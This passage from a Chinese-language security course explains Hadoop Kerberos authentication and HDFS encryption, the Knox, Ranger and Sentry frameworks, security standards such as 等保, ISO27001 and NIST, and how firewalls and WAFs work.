那 Kerberos 协议是什么呢？Kerberos 协议和我们之前讲过的单点登录机制（CAS 流程）很类似，都是向认证中心获取一个认证 Token，然后根据 Token 去完成服务的认证。区别在于，Kerberos 都是主动向认证中心发起认证，不需要服务去进行重定向操作。 


接下来，我带你梳理一下 **Kerberos 的流程**，你可以结合上面的流程图来看。

用户在向 KDC（Kerberos 的认证中心）发起登录之后，会获取一个 Token（Kerberos 的ST），然后通过这个 Token 去访问对应的服务。Token 中包含了签名，因此服务方可以自行验证 Token 的合法性。在认证完成之后，服务方就可以向用户提供服务了。 

Kerberos 比较适用于服务与服务之间的认证，对应到 Hadoop 的场景中，就是 Hadoop集群中内部各个节点之间的认证。

那么，在使用了 Kerberos 认证机制后，我们要怎么去配置每一个 Hadoop 节点，来完成Hadoop 集群的认证呢？这就需要我们**在初始化 Hadoop 的各个节点时，为每个节点申请一个 Kerberos 的密钥文件 Keytab**。

Keytab 文件会使用一个 Principal 作为唯一的身份标识。**Principal 的格式**如下：username/host@realm。可以看到，Principal 由三个部分组成：**username、host 和realm**。

- 其中，“username”是服务所对应的用户身份。比如，Hadoop 的服务会分别以 hdfs 用户运行 HDFS 服务、以 yarn 用户运行 YARN 服务、以 mapred 用户运行 MapReduce 服务。因此，对应各个服务节点的“username”就是 hdfs、yarn 和 mapred。
- “host”即为服务节点在 DNS 中的主机名，“realm”为域标示，可以使用根域名来替代，比如 BAIDU.COM。

现在，我们知道，通过 Principal，Keytab 文件会和节点的服务类型以及 Host 进行绑定。这样一来，每个服务节点都具备了能证实身份的唯一 ID 和密钥，也就可以保证在整个Hadoop 集群中，各个节点都是可信任的。

Kerberos 协议同样可以完成对用户的授权。当认证开启后，只要用户登录一台配置好了Kerberos 密钥的服务器，就能以节点的身份向 Hadoop 发起认证了。

总体来说，因为不同的 Hadoop 工具（Hive、HDFS 等）对授权和审计有不同的需求，所以，这些授权和审计功能通常会放到具体工具中去实现，无法由底层的 Hadoop 统一完成。而这种不统一会增加 Hadoop 管理的工作量，因此，在实际工作中，我们往往会选择通过**集成额外的安全框架，来对授权和审计进行统一管理**。


#### Hadoop 中有哪些加密形式

在黄金法则之外，我们需要考虑的另外一点就是数据加密。和 MySQL 数据库一样，Hadoop 也支持**对硬盘数据进行加密存储**，这个过程主要集中在 HDFS 中：当数据写入 HDFS 时，数据会自动加密；当需要从 HDFS 读取数据时，数据会自动解密。在 MySQL中，我们是以表为单位分配不同的密钥；在 HDFS 中，则需要我们**主动创建 Zone 来进行加密**。

比如，通过下面的命令，我们能够在 HDFS 中创建一个 /zone 目录，对 /zone 目录中的所有数据进行加密。 

```sh
hadoop fs -mkdir /zone
hdfs crypto -createZone -keyName mykey -path /zone
```

但是，和 MySQL 数据库不同的是，HDFS 是一个分布式的存储系统，一份大数据会被分成若干个小数据，存储在不同的服务节点上。那么，HDFS 是怎么对加密密钥进行管理的呢？Hadoop 提供了一个**密钥管理中心 KMS**，当 HDFS 需要进行加解密操作时，会根据用户信息，向 KMS 请求对应的密钥，从而完成数据的加解密工作。


### 通过 Hadoop 安全框架来加强安全功能

Hadoop 作为一个成熟的开源框架，当出现安全需求时，各个公司都会对其进行安全加固。当这些加固的技术成熟时，部分公司就会对这些技术进行整理，包装成为 Hadoop 提供安全加固的框架供我们使用。

接下来，我就从我最熟悉的 3 个知名安全框架入手，为你详细讲解这些安全框架分别为Hadoop 提供了哪些安全机制。

#### Apache Knox

Apache Knox 是一个针对 **Hadoop 集群的网关**。所有对 Hadoop 集群的请求，需要先发送给 Apache Knox，然后由 Apache Knox 代理到 Hadoop 集群中去。对于用户来说，只能够看到 Apache Knox 的网关，而不能够直接和 Hadoop 集群进行通信。通过网关的形式，Apache Knox 将所有和 Hadoop 交互的行为进行了统一收口。在此基础之上，Apache Knox 就可以为 Hadoop 提供统一的安全管理能力，也就是进行用户的认证、授权和审计等工作。 


#### Apache Sentry

Apache Sentry 相当于一个为 Hadoop 提供**集中式授权的中心**。它在 Hive、Impala 等数据引擎中添加一个**插件**，拦截所有对数据引擎的请求，并转发到 Apache Sentry 的授权中心。然后 Apache Sentry 会**基于 role-BAC 的访问控制方式**，对请求进行具体的授权。对于 Hadoop 的各类组件来说，Apache Sentry 是一个比较独立的授权引擎，可以随时地引入或者撤除。也就是说，Apache Sentry 为 Hadoop 提供了**可“插拔式”的授权能力**。 


#### Apache Ranger

Apache Ranger 提供了一个**集中制的访问控制机制**。通过 Apache Ranger 的管理后台，我们可以很方便地管理各类资源的授权机制。而且，这些授权机制是通过一个**轻量级的Java 插件**，运行在各类工具的服务进程（比如 HDFS 的 namenode 进程，Hive 的Hive2Server 进程等）中，所以，在 Hadoop 的服务节点上，不需要运行额外的进程。尽管**耦合性更强**，但 Apache Ranger 更便于管理，它相当于在每一个 Hadoop 工具中都加入了授权的能力。 


#### 小结

为了帮助你加深理解，我把这三个安全框架的功能简单地总结了一张表格。 


现在，你应该已经了解这 3 个安全框架能够提供的安全机制了。接下来，我们说一说，在实际工作中，你该**如何选择这些安全框架**。

我比较**推荐你使用 Apache Ranger 和 Apache Knox 的组合**。因为 Apache Ranger 和Apache Knox 是同一个公司（Hortonworks）推出的安全框架，它们在功能上是相辅相成。

我为什么会这么说呢？我们前面讲过，Apache Ranger 是一个授权系统，它通过访问授权机制决定，谁可以访问哪些数据。但是，Apache Ranger 没有自带的认证功能，当请求到达 Apache Ranger 的时候，它就默认这个用户已经完成认证了。Apache Knox 提供了统一的出入口，只有通过认证的用户，能够将请求发送到 Hadoop 集群中。简单来说就是，Apache Knox 为 Ranger 提供了认证能力，Apache Ranger 为 Apache Knox 提供了授权能力。

那 Apache Sentry 是不是也能和其他的安全框架组合使用呢？其实，我认为 Apache Sentry 和 Apache Ranger，只是两家公司为了竞争开发的同一类产品。因此，它们在功能上比较相似，只是支持的 Hadoop 工具稍有区别，比如，Apache Sentry 支持 Impala，而 Apache Ranger 不支持。

现在，Apache Sentry 和 Apache Ranger 的两家公司已经完成合并，并且已经决定将Apache Sentry 合并到 Apache Ranger 中。所以，如果你需要为 Hadoop 加入安全框架 的话，使用 Apache Knox+Apache Ranger 的组合即可，不需要再去考虑其他安全框架了。官方网站也对这种组合形式进行了具体的描述，你可以直接查阅使用。


### 总结

我们以 Hadoop 为例，详细讲解了分布式系统中的安全风险和安全措施。如果 Hadoop 缺乏安全保护措施，那么其中的数据就会受到威胁。黑客可以通过伪装成用户、伪装成节点或者窃听网络的方式破坏数据的 CIA。

在防护上，我们可以通过认证、授权、审计和加密的方式，对 Hadoop 进行保护。除此之外，Hadoop 作为成熟的开源框架，有很多公司为其打造了增强安全能力的辅助工具。我比较推荐你使用 Hortonworks 的 Apache Knox 和 Apache Ranger 的组合。


### 思考题

在 Hadoop 安全中，我们介绍了“外挂式”的安全工具和框架。所谓“外挂式”，即应用本身不提供足够的安全能力，而由外接的工具来提供安全能力。你可以回忆一下，你还在哪些场景中见过类似的安全模式？这个安全模式又有哪些优缺点？ 


## 安全标准和框架

从这一讲开始，我们讨论安全防御工具。实际上，每个公司都需要进行安全体系建设，业内将这些通用性的建设经验进行总结，形成了各种安全标准和框架。从这些标准和框架中，我们能了解到建设安全体系的思路和方向，对于实际的安全落地工作，有很大的指导作用。

根据安全等级和关注点的不同，不同的安全标准和框架都有各自的具体要求。这些要求都非常简单直接，也很容易理解，所以，这不是我们要讲解的重点。在今天的课程中，我更想通过这些标准和框架设计思路来讲一讲，作为公司的安全人员，该如**何推动公司整体的安全体系建设**。

### 安全标准和框架有哪些

首先，我们来看看，安全标准和框架都有哪些。

国内的安全标准和框架，就是我们常听到的**等级保护制度**（方便起见，后文都简称“等保”）。等级保护根据公司的安全性高低，划分了由**一到五这五个等级**。每个等级都有需要满足和达标的安全要求。等级越高说明公司的安全水平越高，越**被政府认可**。安全等级三级以上的公司，还会**受到国家信息安全监管部门的监督和检查**。

在国外，比较知名的安全标准和框架包括：**ISO27000 系列、NIST、COBIT 和 ITIL**。接下来，我们一一来讲。

- 我们前面讲了等级保护制度，实际上，**NIST 也被称为“美国版等保”**。因为 NIST 是美国政府提出的，对公司的安全能力进行监督和管控的安全框架。但是，NIST 并未考虑公司在实施安全标准时需要付出的**成本**，所以除了美国政务之外，NIST 很少被使用。而 ISO27000 系列和 COBIT 都是不包含具体实施细节的安全标准和框架。
- 其中，**ISO27000 系列是国际上比较认可的安全标准之一**。它提供了兼容性极高的安全体系和信息安全管理的最佳实践指导。但是，ISO27000 系列更关注于**方向上的指导**，没有覆盖具体的实施细节，所以无法作为技术手册来使用。
- **COBIT（ Control Objectives for Information and related Technology）则是给安全管理者提供了一个内控的框架**，它本身更关注于内控和审计。
- 最后，我们来看 **ITIL（ Information Technology Infrastructure Library ）**。ITIL 是一个提升服务质量的标准框架，而安全只是影响服务质量的一个因子。因此，ITIL 会更多地考虑如何提高公司的研发和管理效率，在机密性、可用性和完整性上只给予了比较基本的关注。

以上这些安全标准和框架，除了能对企业的**安全建设进行指导**，也提供了**测评的服务**。测评的目的，一方面是帮助公司认识到自身安全水平，另一方面也是公司**对外宣传**的一个标杆。比如说，国内目前最流行的 ISO27001 测评。各个公司都会以通过了 ISO27001 测评，来对用户和合作伙伴表明，自己的安全水平达到了一个比较成熟的高度。这就是一个对外宣传的表现。

除此之外，等级保护制度作为国家标准，还具备**规避和降低公司法律风险的能力**。比如，当公司出现了某个安全事件导致数据泄漏，如果这个公司没有做过“等保”的话，那么法院就可能认为公司在安全上没有尽到自己的职责，而根据《网络安全法》给予这个公司很严厉的惩罚。但是，如果公司做了“等保”的话，法院可能会认为公司有努力在做，只是仍然有缺陷，而不会给予非常严厉的惩罚。所以，完全不做“等保”和做了但不到位，处罚的标准就完全不同了。


### 现有安全标准和框架有哪些可以借鉴的地方

#### 等保：管理与技术

首先，我们来看一下等保的分类思路。等保对公司的安全要求划分为了**十类**，分别是： 

- 技术要求：安全物理环境、安全通信网络、安全区域边界、安全计算环境、安全管理中心；
- 管理要求：安全管理制度、安全管理机构、安全管理人员、安全建设管理、安全运维管理。 

对于每个分类的具体含义，你通过名字应该就能够理解，这里我就不细说了。

从这些分类中，我们可以看出，等保的大体思路是将安全分为了管理和技术。我们之前就讲过，安全往往是需要自上而下来推动的。因此，安全并不是一个纯技术的“活”，它也需要在管理层面上作出改进。比如，等保要求公司必须要**成立专门的安全管理机构**，安排专门的安全管理人员，这样才有人能够对公司的整体安全来负责，去推动安全的落地。


#### ISO27001： PDCA 流程

ISO27001 是国内比较流行的安全评估认证之一。它提出了 **11 个不同的安全方向**，分别是： 

- 安全策略
- 信息安全组织 
- 人力资源安全
- 资产管理
- 访问控制
- 密码学
- 物理和环境安全
- 操作安全
- 通信安全
- 系统获取、开发和维护
- 供应关系
- 信息安全事件管理
- 业务连续性管理中的信息安全考虑
- 符合性 

可以看到，这个划分还是很全面的。这些安全方向基本包括了安全行业内的各个知识领域。在每个安全方向中，ISO27001 会列举出公司需要完成的安全事项，我觉得你甚至可以依照这个标准来学习安全。

不仅如此，ISO 的一系列框架和标准其实都遵循 **PDCA 流程**，PDCA 也是项目管理上经常被提到的管理方法。这里我就简单说一下。 

- Plan：计划，确定安全的目标并制定建设的规划。
- Do：执行，按照计划的内容和时间来执行。
- Check：检查，对执行的结果进行总结，看是否符合预期。
- Action：改进，如果执行不符合预期，或者计划出现纰漏，则进行分析和改进。 

那 PDCA 流程如何应用在安全体系的建设中呢？这里，我就**举一个公司在做 ISO27001 例子**。 

- Plan：认证机构会先到公司进行调研和培训，然后和公司一块制定一个详细的安全规划。 
- Do：公司会花几个月的时间，去执行这些规划。
- Check：完成之后，认证机构再次去公司进行回访，评估完成的情况。
- Action：如果达到预期，则通过认证；否则继续计划、执行、检查的操作。 

其实，我们在实际去建设公司的安全体系时，也完全可以按照 PDCA 的流程来进行。我们可以先制定一个**年度或者季度的规划**，根据指定的规划去执行。当前阶段完成之后，我们要先检查是否满足了安全需求，以及还有哪些安全风险存在，然后提出改进的方案。基于这个方案，我们就可以接着制定下一个阶段的规划了。


#### NIST： IPDRR 

NIST 提出了公司建立安全体系的 IPDRR 方法框架，主要包括 **Identiify、Protect、Detect、Respond 和 Recover 这五个部分**。 


我认为 NIST 所提出的 IPDRR 方法，是**解决各类安全问题的一种通用思路**。这里，我就**以Web 安全为例**，结合 IPDRR 方法的五个步骤，来详细讲解一下，针对 Web 应用中可能出现的各种漏洞，我们该如何建立安全防护体系。 

- 第一步是 Identify（识别）。我们需要掌握公司有哪些 Web 应用，并对 Web 应用做威胁评估。也就是说，我们需要定位公司的资产，衡量这些资产的价值，然后评估资产保护的优先级和投入成本。
- 第二步是 Protect（保护）。我们要在安全事件发生之前，对数据和资产采取适当的保护措施。（比如：通过访问控制机制来避免越权访问、通过加密来保护数据的 CIA、通过防火墙保护内网隔离等）。在开发上，我们需要采用安全的方法，尽量避免漏洞出现。同时，我们可以部署 WAF 等安全工具，统一对 Web 攻击进行防护检测。
- 第三步是 Detect（检测）。在安全事件发生之中或者之后，我们要能及时发现和检测出安全事件或者攻击行为。这就需要对请求的日志和返回的结果进行分析，评估是否产生攻击行为和数据泄漏。
- 第四步是 Respond（响应）。当检测到安全事件后，我们需要采取有效的措施，来阻止攻击的持续进行，尽可能地降低事件所带来的影响。我认为最可行的操作，就是对出现漏洞的Web 业务进行**下线**，对已经受到影响的数据进行隔离。这也要求我们制定好详细的应急预案，避免攻击发生时公司陷入手忙脚乱的无序状态。
- 第五步是 Recover（恢复）。当事件响应完成后，我们要将应用或者服务恢复到攻击前的状态，也就是对应用和数据进行**修复和重新上线**。同时，也要对事件的原因进行复盘分析，然后进一步完善安全机制。

从这个例子中，我们知道，针对 Web 安全体系建设，我们可以根据 IPDRR 方法 采取多重安全策略进行保护。这也符合安全防护的一个原则：**纵深防御**，即任何单点的安全策略都存在纰漏和被绕过的可能。因此，我们需要采取多重相互独立的安全策略，使得这些策略相互补充，降低安全策略被绕过的可能性。


### 总结

通过对等保、ISO27001 和 NIST 这三个安全标准的分析，我们知道，除了一些比较细的安全机制指导之外，安全标准本身也包含了我们自己去做安全的思路。比如：等保告诉我们安全要分为技术和管理；ISO27001 告诉我们要通过 PDCA 流程去规划安全建设；NIST 告诉我们安全可以通过 IPDRR 建立纵深防御。

对于安全标准的思维提炼，远远不止我提出的这些点。在各个标准和框架的细节中，也都给出了公司在各个安全方向上需要去落地的内容，比如，根据 ISO27001 的访问控制的标准，你可以学习如何制定合适的访问控制机制。

总而言之，我认为，在实际建立安全体系的过程中，我们不应该一味的按照这些安全标准实施，也要主动学习当中的设计思路。这样你才能更高效、更完善地建立公司自有的安全体系。 


### 思考题

你还接触过哪些安全标准和框架，它们又包括了哪些内容和思想？你认为该如何依靠这些思想，去推动公司的安全建设？ 


## 防火墙

黑客在网络攻击时，第一步会扫描系统对外开放的端口，尝试发起连接或者攻击。比如，黑客可以扫描公司**公网 IP 的 22 端口（SSH 服务）**，然后尝试爆破登录。这个时候，通过防火墙，我们既可以屏蔽掉开放的 22 端口，也能拦截爆破的请求。所以，防火墙是面对外部入侵的第一道防线。

当然，这只是个简单的例子，现实中黑客的攻击手段更多，攻击场景也更加复杂。那这个时候，防火墙是如何为系统和网络提供保护的呢？具体来说，防火墙能够拦截哪些攻击呢？它的盲区又是什么呢？今天，我们就一起来学习，如何通过防火墙进行安全防护。 

### 防火墙如何为网络提供保护

防火墙是部署在网络边界上的一种安全设备，其概念比较宽泛，根据需求不同可以工作在**OSI（Open System Interconnection，开放式系统互联） 网络模型**的一层或多层上。一般情况下，防火墙会和路由器搭配使用（或者说路由器能够承担部分防火墙的功能），来对网络进行隔离。

根据实现方式和功能的不同，防火墙可以分为三种类型：**包过滤防火墙、应用网关防火墙和状态检测防火墙**。不同的防火墙在性能和防护能力上都有各自的特点，适用于不同的场景。

#### 包过滤防火墙

包过滤防火墙工作在**网络层和传输层**上。在这两个层级中，网络请求都是以 TCP 或者 UDP数据包的形式进行流动的。因此，包过滤防火墙是**通过检测并拦截所有流经防火墙的 TCP和 DUP 数据包，来对系统提供保护**。它能够获取到的信息包括：源 IP 和端口、目标 IP 和端口、协议号等。由于大部分的路由器甚至 Linux 系统本身（Iptables）也具备类似的功能。因此，通常情况下，我们不需要采购额外的设备部署包过滤防火墙，只需要直接对网络边界的路由器进行设置，就能够满足最基本的拦截需求了。

但是，在防护能力上，包过滤防火墙是**比较弱**的，它只能提供最基础的安全防护。这是因为，包过滤防火墙的**过滤规则基本都是静态的**。也就是说，包过滤防火墙只能够通过匹配IP 地址和端口号，判断这些信息是否命中特定的规则来进行过滤。比如，禁止外网 IP 访问80 和 443 以外的公司 IP 端口。所以，现在大部分的包过滤防火墙都进行了升级，引入了诸如**“连接状态”等概念**，也就变成了状态检测防火墙。


#### 应用网关防火墙

应用网关防火墙**以代理的模式工作在应用层**。所谓“代理”，即接收客户端发出的请求，然后以客户端的身份将请求再发往服务端。大部分的系统和应用都是工作在应用层的，因此，应用网关防火墙能够获取到系统和应用的全部信息，从而实现更复杂的功能，如：**内容监控、认证、协议限制甚至缓存**。 

在包过滤防火墙中，防火墙直接对流经的 TCP 和 UDP 包进行处理。而应用网关防火墙需要**对 TCP 和 UDP 包进行解析，处理成应用层的数据协议**，如 HTTP。因此应用网关防火墙对于网络的性能会产生**负面影响**，而且不是所有的应用都能够很好地兼容代理的存在，所以部署应用网关防火墙有可能对系统的可用性产生影响。除此之外，在应用网关防火墙中，服务端看到的请求都来自于代理，这会导致服务端无法有效地追踪请求的来源。

尽管应用网关防火墙有这些潜在的危害存在，但是它能处理的信息最多，能够**提供的安全防护能力也最强**。由于 Web 攻击是黑客常见的攻击手段，因此，应用网关防火墙也逐渐演变成了专门的 **Web 防火墙**。


#### 状态检测防火墙

状态检测防火墙是包过滤防火墙的一种升级，它同样**工作在网络层和传输层**之上。状态检测和包过滤防火墙最大的不同在于，它会**以连接的形式来“看待”低层级的 TCP 和 UDP 数据包**。我来举个简单的例子。

当客户端发起一次完整的 HTTP 请求时，会需要进行“TCP 三次握手”建立连接（SYN+ACK 数据包），HTTP 请求和响应的数据往往也是通过**多个数据包才能完整发送**。传统的包过滤防火墙只能基于每一个数据包进行判断，比如在“握手”的过程中，包过滤防火墙会分别看到 SYN、SYN+ACK、ACK 这三个数据包，并对每一个数据包进行判断。而事实上，这三个数据包（SYN、SYN+ACK、ACK）代表的是一次握手请求。所以，状态检测防火墙会尝试**将这一连串的数据包组成一次完整的连接请求**，从而获得一个更全面的视角，大大提高其安全性。

对比应用网关防火墙，状态检测防火墙通常不会尝试将数据包构建成高层级的数据，也就是说它不会尝试去解析整个 HTTP 请求中的内容。因此，状态检测防火墙**能获得更优的性能**。目前市面上普遍采用的，都是状态检测防火墙。 


### 防火墙可以为网络边界提供哪些保护呢

网络边界之间的信用层级通常是不一样的，因此，我们需要利用防火墙在网络边界上提供必要的保护，使得跨越边界的数据和连接相对可信。那防火墙究竟可以为网络边界提供哪些保护呢？下面，我就详细来讲一讲。

#### 保护操作系统的漏洞

在操作系统的发展历程中，出现过很多臭名昭著的**漏洞**。比如：由于对网络请求处理不当，导致的 DDoS 攻击（如死亡之 PING、SYN 洪泛等）；由于高危服务默认开放导致的代码执行（如熊猫烧香扫描的是 135 和 445 端口的弱密钥）；由于服务漏洞导致的代码执行（如永恒之蓝利用的 SMB 漏洞）。

如果在这些漏洞曝光时，我们能即时更新操作系统补丁、关闭对应服务，那自然是能够避免系统和应用受到侵害。但是，在通常情况下，尤其是当公司扩大规模的时候，服务器管理员意识到问题并采取措施的这段响应时间，已经足够病毒或者蠕虫进行大规模地传播了。

这时，防火墙的存在就很有必要了。

- 一方面，防火墙可以迅速对全网的服务器进行保护，**拒绝向高危端口发起的请求**，如 Windows 中的 135、137 和 445 等，这也就是我们之前所说的“虚拟补丁”。
- 另一方面，更加智能的防火墙，能够检测到整体流量中的异常变化，比如，突然出现了针对某个端口的大量请求，这就说明系统或者应用中很可能出现了新的漏洞，这时，防火墙可以产生报警甚至自动对异常的请求进行拦截，及时避免网络中的操作系统受到攻击。


#### 阻止非法的信息流动

在网络边界之间流动的数据，往往都会受到一定的规则约束。最著名的有**中国的防火长城（Great Firewall）**。防火长城的主要目的不是为了防止国外对中国发起网络攻击，而是根据法律法规，防止国内网民访问国外违法的数据信息。同样地，美国也存在类似的防火墙设备，比如：根据美国儿童网络保护法令（CHIPA），学校和图书馆的网络必须限制学生可以浏览的网页。

除了**防止非法地获取数据**，防火墙同样能够**防止敏感数据的流出**。比如，防火墙可以对部分关键词或者敏感词进行检测阻止其外流。如果数据安全做得好一些的公司，可以对公司内的全部数据打上**标签**，然后根据标签的安全等级对跨越安全边界的数据进行处理。

需要注意的是，防火墙能够提供的**数据安全保护是有限的**。原因在于，大部分防火墙都是用来处理较低层级的数据，且很多连接会对数据本身进行加密（VPN、HTTPS）。这就导致了防火墙实际能够看到的可识别数据并不多，拦截能力因此下降。其实，这种**绕过防火墙的例子**很常见，各类“**梯子**”能翻墙访问 Google 就是基于这个原理实现的。


#### 限制可访问的服务和审计

防火墙作为安全策略的一部分，还可以**帮助公司落地安全制度**。公司所有对于网络方面的限制和要求，基本都可以在防火墙上进行实现。比如：限制外网开放的服务只能是 HTTP 服务，那么所有非 HTTP 的请求就会被拦截；再比如，防火墙也可以对带宽的使用进行限制，避免某个服务抢占全部的带宽资源。

除此之外，防火墙作为网络安全设备，它的**日志功能**通常比路由器等常规网络设备更加完备。因此，在网络攻击发生之后，我们需要进行事件调查时，防火墙日志是很关键的信息来源。 


### 防火墙有哪些防御盲区

我们知道，防火墙不仅是网络安全中很重要的组成部分，也是我们最为熟知的安全工具。但是，在安全领域中不存在绝对，所以防火墙对于某些攻击也同样无能为力。接下来，我会主要讲解防火墙不能防御的攻击手段，在了解这些攻击之后，我们才能提高对防火墙和网络安全的整体认识。

- 首先，防火墙只位于网络边界。因此，防火墙只能用来对跨越边界的请求进行检测和拦截。当请求通过后，后续发起的攻击请求对于防火墙来说，就是不可见的。比如，当黑客利用弱密钥，通过合法的 SSH 登录到服务器之后，就相当于穿透了防火墙的保护，之后黑客再通过 SSH 执行的命令，防火墙都无法检测和拦截。所以，防火墙**不能防御已授权服务中的恶意攻击**。
- 其次，尽管防火墙位于网络边界，但这并不意味着所有的请求都会经过防火墙。比如，直接通过物理网线接入到服务器，黑客就可以在不经过防火墙的情况下进入内网。在这种情况下，防火墙自然也起不到任何作用了。同样地，在网络内部发生的攻击行为，也不在防火墙的保护范围内。也就是说，防火墙**不能防御不通过防火墙的访问**。
- 最后，作为边界设备，防火墙自身其实是暴露在外界的。因此，防火墙会遭受到黑客的直接攻击。如果**防火墙自身的操作系统存在缺陷**，那么，黑客就能够直接攻击并控制防火墙，然后关闭防火墙的防护功能，轻松突破边界。正是因为如此，部分防火墙厂商会为防火墙设备专门设计和开发一个加固过的专用操作系统，以此来提高防火墙的安全性。


### 总结

防火墙作为最基础的网络安全设备之一，广泛存在于各种网络边界上，是网络安全的第一道防线。

在业务相对简单时，我们可以通过 IP、端口和协议等参数，配置简单的黑白名单规则来阻挡恶意的网络请求；在业务逐渐复杂时，开放的端口协议变多，我们对防火墙的技术实现和配置复杂度都会有较高要求，需要由专业的人员或者团队来进行维护。

因此，尽管防火墙是我们最熟悉的安全设备，但实际上，防火墙是一个专业性较强的安全产品，开发或者运维人员一般不需要对其进行直接操作或者配置，具体的部署和配置工作都是交给**防火墙厂商**来完成和定期维护的。 


### 思考题

你可以检查一下你的服务器或者网络设备中，对外开放的端口有哪些。这些端口中，有哪些不需要对外开放，有哪些可以限制源 IP？你能否通过防火墙（或者路由器、Iptables 等）对这些端口进行限制呢？ 


## WAF ：Web 应用防护系统

如果你细心观察的话，应该会发现，随着 Web 应用越来越多，黑客的攻击目标也逐渐转向了针对 Web 安全的攻击。传统的防火墙主要专注于网络层的攻击防御，对 Web 安全的防御能力相对欠缺。因此，**WAF（Web Application Firewall，Web 应用防护系统）**的概念也就被提了出来。WAF 说白了就是应用网关防火墙的一种，它**只专注于 Web 安全的防御**，近几年来逐渐被当成一个相对独立的产品方向来研究。

那么，WAF 和防火墙到底有哪些区别呢？针对我们之前讲过的各种 Web 攻击手段，WAF是如何提供保护的呢？

### WAF 的工作模式

前面我说过，WAF 的本质是“专注于 Web 安全的防火墙”，Web 安全关注于应用层的HTTP 请求。因此，WAF 的分析和策略都**工作于应用层**。

在 Web 安全这个方向上，WAF 对比防火墙又做出了哪些改进呢？我们可以从 WAF 的三种工作模式入手，探讨这两者的区别。这三种工作模式分别是：透明代理、反向代理和插件模式。

#### 透明代理

透明代理和大部分防火墙的工作模式相同：在客户端和服务端通信不需要作出任何改变的情况下，对 HTTP 流量进行请求和转发。在这个过程中，为了解密 HTTPS 流量，WAF 必须和服务端同步 HTTPS 对称密钥。 


透明代理的优点就是**容易部署**，它不需要客户端和服务端进行任何改动。但是，透明代理的缺点也有很多。透明代理本身不是一个 Web 服务，所以它无法修改或者响应 HTTP 的请求，**只能够控制请求的通过或者拒绝**。正因为如此，它也无法实现 Web 服务所提供的认证、内容过滤等功能。


#### 反向代理

区别于透明代理，反向代理要求客户端**将请求的目标地址指向 WAF**，而不是服务端。在反向代理工作模式中，服务端接收的请求，实际上也是由 WAF 发起的。在这个过程中，**WAF 本身就相当于一个 Web 服务**，只不过对所有的 HTTP 请求都进行了转发。 


因为反向代理 WAF 本质上是一个 Web 服务，所以 HTTPS 证书可以直接部署在 WAF 上。WAF 在对 HTTPS 流量解密之后，就可以在**内网中用 HTTP 的形式**，向服务端发起代理请求了。

而且，反向代理 WAF 作为一个 Web 服务，能够提供的功能也更加丰富。比如，WAF 可以充当一个前置的认证平台，对所有请求进行身份校验和身份管理。同时，也因为在反向代理工作模式中，客户端和服务端不直接通信，而是将全部请求都先请求到 WAF 上，所以反向代理 WAF 对服务端的隔离也更加彻底。

但是，反向代理同样存在缺点。首先，功能更丰富意味着**性能开销更大**。因此，反向代理WAF 对硬件要求更高。其次，反向代理 WAF 一旦宕机，就无法响应客户端的任何请求。这样一来，即使服务端仍然正常，但用户已经无法正常使用应用了。而对于透明代理 WAF来说，如果 WAF 宕机了，只是无法提供 Web 防护而已，客户端和服务端的通信不会受到任何影响。


#### 插件模式

最后，我们来看插件模式。在插件模式中，WAF 不再是网络中一个独立的安全产品了，而是**以插件的形式依附于 Web 服务端本身**，为 Web 安全提供防护。

那怎么才能将 WAF 植入到服务端的逻辑中呢？我们最常使用的一种技术就是 **AOP（Aspect Oriented Programming，面向切面编程）技术**。在 AOP 技术中，WAF可以作为一个切片植入到服务端的逻辑中。 


而且，目前 AOP 技术十分流行，各类编程语言都支持。所以，插件模式的 WAF 部署同样十分简单。但是，这种将 WAF 和服务端强耦合的方式，会带来一定的负向影响。

- 首先，WAF 和服务端一块工作在服务器上，会消耗服务器额外的资源，对 Web 服务本身的**性能**产生影响。
- 其次，WAF 和服务端耦合，也就意味着 WAF 的所有改动都会直接影响到服务端。对于代理模式的 WAF 来说，通常只需要自测就可以升级了。而对于插件模式的 WAF，它本身的**升级**必须和服务端一起进入评估和测试流程，就会增加额外的工作量。


#### 小结

为了帮助你理解这三种工作模式，我总结了一张表格。 


总结一下，关于 WAF 的三种工作模式，你需要重点掌握这些内容：

- 首先，WAF 将处理的请求协议限定为 HTTP，所以 WAF 比应用网关防火墙具备更高的专业性和灵活性；
- 其次，WAF 可以以代理的形式，在网络中提供 Web 安全防护，也可以作为插件嵌入到服务端中；
- 最后，我们也可以根据需求、成本和硬件环境等因素，选择不同的部署模式对 Web 安全进行防护。 


### WAF 的功能

在了解 WAF 的主要工作模式之后，我们知道，在部署模式上 WAF 比防火墙具备更高的灵活性。WAF 可以根据不同的需求，以不同的形式为 Web 服务提供保护。同样的，在功能上，WAF 也可以去实现一些 HTTP 请求中特有的安全功能。比如去解析 HTTP 数据、解密HTTPS 流量等。

#### HTTP 解析能力

我们知道，WAF 专注于 Web 安全。因此，对 HTTP 请求进行解析是 WAF 最基础的能力。在 HTTP 中，通用的内容包括：**请求的 URL 以及其中的参数、HTTP 头部信息、POST 的 body 内容**等。

除此之外，某些攻击特征可能隐藏得比较深，比如 JSON 中的某个字段，无法通过 JSON的整体内容检测出来，我们必须一个字段一个字段去判断。因此，WAF 还需要**解析 XML、JSON 等 RPC 传输协议**，能够理解对应的 key 和 value 分别是什么。 

除了单纯地解析内容，WAF 还需要**对 HTTP 内容做必要地处理**。为什么要这么做呢？这主要有两方面原因。

- 第一，HTTP 中的内容可能经过了 UrlEncode 等编码方式的处理，因此，WAF 需要具备解码能力，避免攻击的特征通过编码来进行绕过。
- 第二，想要看到 HTTPS 中的加密内容，WAF 必须能够解密 HTTPS 请求。在透明代理模式中，WAF 需要和服务端同步 HTTPS 的密钥，才能够获得解密的请求；在反向代理中模式中，WAF 自带证书，可以直接解密；在插件模式中，WAF 依靠服务端解密请求之后，再进行 HTTP 的解析。


#### Web 安全防护

通过对 HTTP 请求进行解析、对编码内容进行解码和对 HTTPS 进行解密之后，WAF 就能够获得全部 HTTP 请求内容了。在此基础之上，WAF 就可以对请求内容进行分析，为Web 服务提供安全保护了。

我总结了三种主要的分析手段。 

- 签名匹配：和杀毒软件中病毒库的概念类似，WAF 也可以维护一个攻击样本库。样本库中存有已知攻击请求的散列签名，只要 HTTP 请求内容的散列签名在这个样本库，就说明 HTTP 请求中携带了攻击内容。
- 正则匹配：签名匹配需要请求完全一致才能够检测出来，而正则匹配只需要部分特征就可以检测。WAF 可以通过抽象一些攻击特征的正则表达式，对 HTTP 请求进行检测。比如，如果请求的某个参数中出现了**单引号**，那么很有可能就是黑客发起的 SQL 注入攻击。
